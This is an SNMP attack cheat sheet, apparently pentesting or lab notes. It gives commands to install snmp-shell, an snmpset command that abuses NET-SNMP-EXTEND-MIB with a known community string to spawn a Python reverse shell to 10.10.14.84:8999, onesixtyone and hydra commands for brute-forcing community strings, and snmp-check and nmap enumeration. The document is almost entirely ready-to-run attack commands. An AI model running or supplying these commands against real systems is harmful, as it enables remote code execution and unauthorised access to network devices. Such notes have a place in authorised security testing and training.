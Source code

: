  - sudo apt install snmp snmp-mibs-downloader rlwrap -y

 - git clone https://github.com/mxrch/snmp-shell

 - cd snmp-shell

 - sudo python3 -m pip install -r requirements.txt

### Or a reverse shell

 - snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'

## Crack SNMP Passwords

 - onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt {IP} -w 100

 - hydra -P {Big_Passwordlist} -v {IP} snmp

## Enumerate SNMP 

 - snmp-check {IP}

 - nmap --script "snmp* and not snmp-brute" {IP}
